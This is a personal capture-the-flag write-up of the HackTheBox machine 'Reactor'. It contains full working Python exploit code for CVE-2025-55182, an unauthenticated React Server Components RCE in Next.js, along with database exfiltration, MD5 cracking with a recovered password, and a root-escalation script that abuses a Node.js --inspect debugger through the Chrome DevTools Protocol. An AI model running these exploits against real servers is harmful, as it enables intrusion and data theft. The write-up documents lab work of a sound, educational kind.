# Reactor - HackTheBox Writeup

**Difficulty:** Medium  (that's my take lol)

**OS:** Linux  


---

## Summary

Single-route Next.js 15 app with no login page.. yeah literally no visible attack surface. CVE-2025-55182 gave unauthenticated RCE via React Server Component deserialization. From there I pulled an SQLite database, cracked the user MD5 hash, SSHed in, run linpeas, then abused a root Node.js process that was running with `--inspect` to get the root flag via the Chrome DevTools Protocol.

---

## Reconnaissance

### Port Scanning

I started with nmap (I dn't even know why lol) but it was slow so I switched to rustscan:

```bash
rustscan -a 10.129.245.214
```



**Open ports:** 22 (SSH), 3000 (HTTP)

Port 22 needs credentials so I focused on the web app first.. literally the user flag gateway haha.

---

### Web Enumeration

Opened `http://10.129.245.214:3000` in firefox.. it was a nuclear reactor monitoring dashboard called **ReactorWatch**.



Noted some names on the staff panel (just incase I'd need to turn them into a user wordlist):

- Dr. Elena Rodriguez - Lead Nuclear Engineer
- Marcus Kim - Senior Technician
- James Thompson - Safety Officer

Let's move on.. ran whatweb to fingerprint the stack:

```bash
whatweb http://10.129.245.214:3000
```



Confirmed **Next.js**.

Since the web app was built with Next.js, I used Feroxbuster to enumerate its static assets and look for JavaScript files or other resources that could reveal useful information.

```bash
feroxbuster -u http://10.129.245.214:3000 -x js,json,txt,html
```



Found `.js` chunks under `/_next/static/chunks/` but no login pages, API routes, or admin panels.

---

### Manual JS Analysis

Pulled the main page and extracted asset references:

```bash
curl -s http://10.129.245.214:3000/ -o index.html
grep -oE 'href="[^"]+|src="[^"]+' index.html
```



Downloaded all JS chunks to dig through:

```bash
wget -r -np -nd -A '*.js' http://10.129.245.214:3000/_next/static/chunks/
```

The abve command returned a 404 not found. Hence I tried using a wilcard but also returned 404 not found:

```bash
wget http://10.129.245.214:3000/_next/static/chunks/*.js
```
I then defaulted to downloading the js files one after the other:




I then searched for API routes:

```bash
grep -RoiE '(/api/[^"'\'' ]+|https?://[^"'\'' ]+)' . --include='*.js' | sort -u
```



Lol that was a **Dead end.** Nothing useful.. at least to me personally. There were no hidden routes, no credentials and no admin panel references. Now, let's see if this particular Next.js version has some known vulenrabilities..

Confirmed the Next.js version from the chunks:

```bash
grep -r "version" ./ --include="*.js"
```

Found so many version nuumbers but thhe one related t0 the Next.js was **15.0.3**.



---

## Finding the Vulnerability

Searched for known CVEs for Next.js 15. There were about three. But which one would be the most suitable?



Other public PoCs seemed targeted at Android kernel exploits which was a wrong direction entirely.

Well, let's make use of nuclei:

```bash
nuclei -u http://10.129.245.214:3000 -tags nextjs,cve -severity critical,high
```



Yeyy.. I got a Hit! :

```
[CVE-2025-55182] [http] [critical] http://10.129.245.214:3000
```
I then researched to understand what that CVE was about. In fact, when I initially searched for  CVEs for Next.js 15, there was a medium post of a POC for CVE-2025-55182



Just that, it was more of a display of how the exploit wrks in a localized environment where the vunerable version has been installed.

---

## CVE-2025-55182 - Unauthenticated RCE

**What it is:** React Server Components (used by Next.js) unsafely deserializes multipart form data sent to Server Action endpoints. Crafting a malicious POST body lets an attacker inject JavaScript that calls `child_process.execSync()` on the server with no authentication required, CVSS 10. Mmmm.. that's quite interesting

**How output comes back:** The injected JS throws a `NEXT_REDIRECT` error with command output embedded in the URL. The server returns it in the `x-action-redirect` response header.

**References:**
- https://github.com/Chocapikk/CVE-2025-55182
- https://gist.github.com/maple3142/48bc9393f45e068cf8c90ab865c0f5f3
- https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components
- https://github.com/assetnote/react2shell-scanner

---

### Confirming RCE

The exploit below sends a crafted multipart POST to `/` with the `Next-Action: x` header. The body exploits prototype chain pollution to inject JS that runs on the server and exfiltrates the output via a redirect URL.

I saved the script below as `exploit.py`:

```python
import subprocess, urllib.parse

def rce(cmd):
    js = (
        "fs.readFileSync('/etc/hostname').toString()"  # placeholder, overridden below
    )
    # Build the command as a JS expression
    cmd_escaped = cmd.replace("'", "\\'")
    js_expr = f"cp.execFileSync('/bin/sh',['-c','{cmd_escaped}'],{{timeout:10000}}).toString().trim()"

    body = (
        "------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
        "Content-Disposition: form-data; name=\"0\"\r\n\r\n"
        '{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,'
        '"value":"{\\"then\\":\\"$B1337\\"}","_response":{"_prefix":'
        '"var fs=process.mainModule.require(\'fs\');'
        'var cp=process.mainModule.require(\'child_process\');'
        'var res=' + js_expr + ';'
        'throw Object.assign(new Error(\'NEXT_REDIRECT\'),'
        '{digest: \'NEXT_REDIRECT;push;/x?a=\'+encodeURIComponent(res)+\';307;\'});",'
        '"_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}' + "\r\n"
        "------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
        "Content-Disposition: form-data; name=\"1\"\r\n\r\n"
        '"$@0"\r\n'
        "------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
        "Content-Disposition: form-data; name=\"2\"\r\n\r\n"
        "[]\r\n"
        "------WebKitFormBoundaryx8jO2oVc6SWP3Sad--\r\n"
    )

    with open('/tmp/payload.bin', 'wb') as f:
        f.write(body.encode())

    result = subprocess.run([
        'curl', '-si', '-X', 'POST', 'http://10.129.245.214:3000/',
        '-H', 'Next-Action: x',
        '-H', 'X-Nextjs-Request-Id: aaaa1111',
        '-H', 'X-Nextjs-Html-Request-Id: bbbb2222bbbb2222bbbbb',
        '-H', 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad',
        '--data-binary', '@/tmp/payload.bin'
    ], capture_output=True, text=True, timeout=20)

    for line in result.stdout.split('\n'):
        if 'x-action-redirect' in line.lower() and '/x?a=' in line:
            enc = line.split('/x?a=')[1].split(';')[0].strip()
            return urllib.parse.unquote(enc)

    return "FAILED:\n" + result.stdout[:400]

print(rce('id'))
print(rce('whoami'))
print(rce('hostname'))
```
Then I executed it..

```bash
python3 exploit.py
```



RCE confirmed as the `node` user with the hostname being reactor.

---

### Enumerating the Filesystem

The `x-action-redirect` header breaks if command output has newlines, so I used Node's `fs` module directly for file reads instead of cat. I simply added this function to the initial exploit script:

```python
def rce_fs(js_expr):
    body = (
        "------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
        "Content-Disposition: form-data; name=\"0\"\r\n\r\n"
        '{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,'
        '"value":"{\\"then\\":\\"$B1337\\"}","_response":{"_prefix":'
        '"var fs=process.mainModule.require(\'fs\');'
        'var cp=process.mainModule.require(\'child_process\');'
        'var res=(' + js_expr + ');'
        'throw Object.assign(new Error(\'NEXT_REDIRECT\'),'
        '{digest: \'NEXT_REDIRECT;push;/x?a=\'+encodeURIComponent(res)+\';307;\'});",'
        '"_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}' + "\r\n"
        "------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
        "Content-Disposition: form-data; name=\"1\"\r\n\r\n"
        '"$@0"\r\n'
        "------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
        "Content-Disposition: form-data; name=\"2\"\r\n\r\n"
        "[]\r\n"
        "------WebKitFormBoundaryx8jO2oVc6SWP3Sad--\r\n"
    )
    with open('/tmp/payload.bin', 'wb') as f:
        f.write(body.encode())
    result = subprocess.run([
        'curl', '-si', '-X', 'POST', 'http://10.129.245.214:3000/',
        '-H', 'Next-Action: x',
        '-H', 'X-Nextjs-Request-Id: aaaa1111',
        '-H', 'X-Nextjs-Html-Request-Id: bbbb2222bbbb2222bbbbb',
        '-H', 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad',
        '--data-binary', '@/tmp/payload.bin'
    ], capture_output=True, text=True, timeout=20)
    for line in result.stdout.split('\n'):
        if 'x-action-redirect' in line.lower() and '/x?a=' in line:
            enc = line.split('/x?a=')[1].split(';')[0].strip()
            return urllib.parse.unquote(enc)
    return "FAILED"

# List home directories
print(rce_fs("fs.readdirSync('/home').join(',')"))

# List /opt
print(rce_fs("fs.readdirSync('/opt').join(',')"))

# List the app directory
print(rce_fs("fs.readdirSync('/opt/reactor-app').join(',')"))
```



Found:
- `/home/engineer` and `/home/node`  
- `/opt/reactor-app` containing: `.env`, `reactor.db`, `node_modules`, etc.. as seen in the screenshot

For anything with multiline output (like `cat /etc/passwd`), the redirect URL breaks. The script above works fine for directory listings since `ls` output is short enough. For file reads, let's see how I went about that..

So, remember I spotted `reactor.db`? which a SQLite database.

---

### Pulling the Database

The database is a binary SQLite file, so it cannot be reliably returned directly through the redirect URL. Instead, I Base64-encoded the file on the target and then decoded it locally.

I added the following to exploit.py:
```python
b64 = rce('base64 -w0 /opt/reactor-app/reactor.db')

if not b64.startswith("FAILED"):
    import base64

    with open('/tmp/reactor.db', 'wb') as f:
        f.write(base64.b64decode(b64))

    print("Database saved to /tmp/reactor.db")
```
The `-w0` option prevents base64 from inserting newline characters, allowing the encoded database to pass cleanly through the redirect response.

I then ran:
```bash
python3 exploit.py
```
The script automatically decoded the Base64 output and saved the database locally as /tmp/reactor.db

I verified the file:
```bash
file /tmp/reactor.db
```



Then opened it with SQLite and listed the available tables:

```bash
sqlite3 /tmp/reactor.db .tables
```


```
I think the users table is worth enumerating for now:
```

```bash
sqlite3 /tmp/reactor.db "SELECT * FROM users;"
```



```
admin - a203b22191d744a4e70ada5c101b17b8
engineer - 39d97110eafe2a9a68639812cd271e8e
```

Two MD5 hashes.. next obvious thing would be to save these two hashes as text files and crack them with john or haashcat. I prefer using john tho

---

### Cracking the Hashes

```bash
echo "a203b22191d744a4e70ada5c101b17b8" > hashes.txt
echo "39d97110eafe2a9a68639812cd271e8e" >> hashes.txt
```

Then I used john:
```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
john --format=raw-md5 hashes.txt --show
```



I couldn't determine if it was the admin hash that got cracked or not. But eventually, I realised it was the engineer hash that got cracked (when I tried ssh)

`engineer:reactor1` The admin hash didn't crack.

---

## User Flag
I logged into the box as the engineer user with password `reactor1`:

At this point, the time allocated for the spawed box was up hence I had to respawn.. so if you see a change in the ip as seen below.. it's due to that :)

```bash
ssh engineer@10.129.22.236
```

```bash
cat user.txt
```




---

## Privilege Escalation

### Running LinPEAS

Served linpeas from my kali machine:

```bash
python3 -m http.server 2020
```

```bash
wget http://10.10.15.169:2020/linpeas.sh
chmod +x linpeas.sh
```



Then I run it: 
```
./linpeas.sh
```



I got juiccy stuff, just as I like to say :) lol. Fr three things stood out to me immediately..

**Potential CVEs** to escalate privilages with:



**LXD group (flagged red/yellow):**



Current user belongs to the lxd group (root-equivalent when LXD or its installer is reachable)
My current user can write to `/run/lxd-installer.socket`

**Root Node.js process with inspector open (flagged red):**

From the running processes section:

```
root  1408  /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

From the active ports section:

```
tcp  LISTEN  127.0.0.1:9229  0.0.0.0:*
```

I then did some research and realised the two paths available: LXD group escape, or the Node.js inspector. 

The inspector is faster and doesn't require spinning up a container so I went with that.

---

### What Is the Node.js Inspector?

When Node.js runs with `--inspect`, it opens a debugging interface; the Chrome DevTools Protocol (CDP), as a WebSocket on the specified port. Anyone who can reach that port can connect and run arbitrary JavaScript inside that process.

Since `uptime-monitor.service` runs as **root** with `--inspect=127.0.0.1:9229`, connecting to that WebSocket and sending a `Runtime.evaluate` command means my code runs as root.

Port 9229 is localhost-only, but that's fine sinve we got SSH access.

Beloww is the rederence I used:

**Reference:** https://nodejs.org/en/docs/guides/debugging-getting-started#security-implications

---

### Checking the Inspector Is Alive

From the SSH session as `engineer`:

```bash
curl -s http://127.0.0.1:9229/json
```



This shows that the inspector is live. The `id` field is the WebSocket session ID needed to connect.

### Connecting to the Inspector and Running Code as Root

The CDP protocol is just WebSocket + JSON. The script below does the full handshake (connects, upgrades to WebSocket, sends a `Runtime.evaluate` command, and reads the result)

I saved this as `cdp_exploit.py` on my kali machine, then copied it over:

```bash
scp cdp_exploit.py engineer@10.129.245.214:/tmp/cdp_exploit.py
```

```python
import socket, json, base64, struct, os, time, urllib.request

HOST = '127.0.0.1'
PORT = 9229

# Step 1: Get the current WebSocket session ID from the inspector HTTP endpoint
resp = urllib.request.urlopen('http://127.0.0.1:9229/json', timeout=5)
ws_id = json.loads(resp.read())[0]['id']
PATH = '/' + ws_id
print(f"[*] Session ID: {ws_id}")

# Step 2: Build and send the HTTP -> WebSocket upgrade handshake
key = base64.b64encode(os.urandom(16)).decode()
handshake = (
    f"GET {PATH} HTTP/1.1\r\n"
    f"Host: {HOST}:{PORT}\r\n"
    "Upgrade: websocket\r\n"
    "Connection: Upgrade\r\n"
    f"Sec-WebSocket-Key: {key}\r\n"
    "Sec-WebSocket-Version: 13\r\n"
    "\r\n"
).encode()

def ws_send(sock, msg):
    # WebSocket frames must be masked when sent from client to server
    data = msg.encode()
    mask = os.urandom(4)
    masked = bytes(b ^ mask[i % 4] for i, b in enumerate(data))
    n = len(data)
    hdr = bytes([0x81])  # FIN bit + text frame opcode
    if n < 126:
        hdr += bytes([0x80 | n])  # MASK bit + payload length
    else:
        hdr += bytes([0x80 | 126]) + struct.pack('>H', n)
    sock.sendall(hdr + mask + masked)

def ws_recv(sock, timeout=8):
    sock.settimeout(timeout)
    raw = b''
    try:
        while True:
            c = sock.recv(65536)
            if not c:
                break
            raw += c
            if b'"result"' in raw or b'"error"' in raw:
                break
    except socket.timeout:
        pass
    # Strip the WebSocket frame header bytes to get to the JSON
    idx = raw.find(b'{')
    if idx >= 0:
        return raw[idx:].decode(errors='replace')
    return raw.decode(errors='replace')

# Connect and complete the upgrade
sock = socket.socket()
sock.settimeout(10)
sock.connect((HOST, PORT))
sock.sendall(handshake)

buf = b''
while b'\r\n\r\n' not in buf:
    buf += sock.recv(4096)
print("[*] WebSocket handshake complete")

# Send a CDP Runtime.evaluate command to run code as root
expression = "process.mainModule.require('child_process').execSync('id; cat /root/root.txt').toString()"

payload = json.dumps({
    "id": 1,
    "method": "Runtime.evaluate",
    "params": {
        "expression": expression,
        "returnByValue": True
    }
})

ws_send(sock, payload)
time.sleep(0.5)
result = ws_recv(sock, 6)

# Parse and print the output
try:
    parsed = json.loads(result)
    val = parsed.get('result', {}).get('result', {})
    if val.get('type') == 'string':
        print("\n[+] Output:\n" + val['value'])
    else:
        print(json.dumps(parsed, indent=2))
except Exception as e:
    print('Parse error:', e)
    print('Raw:', repr(result[:600]))

sock.close()
```

I verified the script on the box and run it from the SSH session:

```bash
python3 /tmp/cdp_exploit.py
```



---

At long last, the battle has ended lool. I got the root flag



---

## Key Takeaways

- **CVE-2025-55182** - a single-page Next.js app with no login is not safe if React Server Components with Server Actions are enabled. No auth needed, one POST request
- **LinPEAS caught the privesc path clearly** - the `--inspect` flag in the process list and the `RUNS_AS_ROOT` flag on the service were both highlighted. Worth running linpeas on every foothold
- **Node.js `--inspect` on a root process = root shell** - CDP `Runtime.evaluate` is just a remote code execution interface. If any root process exposes it locally, it's over
- **LXD group** - a second privesc path existed via the `lxd-installer.socket`. The inspector was faster per the research I made on it